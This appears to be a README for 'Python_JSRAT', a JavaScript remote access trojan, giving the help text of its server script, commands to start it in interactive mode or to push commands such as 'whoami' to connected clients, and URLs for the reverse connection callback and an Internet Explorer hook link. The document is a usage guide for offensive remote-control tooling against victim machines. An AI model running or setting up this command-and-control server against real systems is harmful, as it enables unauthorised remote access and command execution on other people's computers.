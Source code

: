# How to Use Python_JSRAT:

## JSRat Server Usage
```
JSRat Server

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```
## Two Modes:
  1-Interactive mode
   python MyJSRat.py -i 192.168.1.101 -p 8080
  2-Command mode
  python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
  
## Url explain:
http://192.168.1.101:8080/connect  default reverse url

http://192.168.1.101:8080/wtf To see the code ran on the client

http://192.168.1.101:8080/hook IE hook link
